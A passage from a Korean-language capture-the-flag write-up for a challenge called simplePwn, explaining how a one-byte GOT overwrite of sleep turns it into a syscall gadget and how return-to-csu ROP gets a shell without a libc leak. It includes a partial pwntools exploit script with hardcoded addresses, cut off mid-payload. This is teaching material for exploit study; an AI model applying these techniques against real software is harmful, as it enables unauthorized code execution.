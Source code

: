 libc가 메모리에 할당될 때는, 페이지 단위(0x1000)로 이뤄진다. 따라서, 하위 2바이트까지 수정하면, 0x10번 중 1번으로 오차가 생길 수 있지만, 1바이트만큼 수정하는 것은 해당 함수를 기준으로 원하는 명령을 실행하도록 수정할 수 있다.

정리하자면, **GOT overwrite**를 통해, 특정 함수의 1바이트를 수정해서 **syscall gadget**으로 만들 수 있다면, libc leak을 하지 않고도 쉘을 딸 수 있을 것이다.

## 익스플로잇
![sleep 함수 근처](0215-SFCTF-simplePwn-writeup/img3.png)

sleep 함수의 바로 위에는 __waitid라는 함수가 존재한다. 그 속에 syscall도 함께 들어있는데, 이를 활용하였다.  
즉, sleep_got(0x602070)의 하위 1바이트를 0x3E로 바꾼다면, syscall을 호출할 수 있게 된다.

또한, PIE가 걸려 있지 않기 때문에, 바이너리 코드를 원하는대로 이용할 수 있는데, 그중에서도 csu 가젯을 이용하면, 원하는 함수 호출이 가능하다. 관련된 정보는 구글에 "return to csu"라고 검색하면 여러 정보를 얻을 수 있을 것이다.

그래도 살짝 설명하자면, csu는 바이너리가 실행되는 과정에 있는 여러 함수 중 하나이며, 이를 이용하면 ROP를 할 때, 큰 도움을 받을 수 있다.


```python
from pwn import *

def ss(s):
	sleep(0.1);
	p.send(s)

def add(idx, size):
	ss('1')
	ss(str(idx))
	ss(str(size))

def csu(first, second, third, func, toggle=0):
    if(toggle):
        pl = p64(init_csu)
        pl += p64(0)*2		# rbx = 0
        pl += p64(1)
        pl += p64(func)		# r12
        pl += p64(third)	# r13
        pl += p64(second)	# r14
        pl += p64(first)	# r15
        pl += p64(chain_csu)

    else:
        pl = b"a"*8
        pl += p64(0)
        pl += p64(1)
        pl += p64(func)
        pl += p64(third)
        pl += p64(second)
        pl += p64(first)
        pl += p64(chain_csu)
    return pl

p = process('./simple_pwn', env={"LD_PRELOAD":"./libc-2.23.so"})
init_csu = 0x400D56
chain_csu = 0x400D40
sleep_got = 0x602070
read_got = 0x602040
bss = 0x602500

sleep(3)
add(1, 0)

ss('3')
ss('1')
payload = 'A'*0x108
```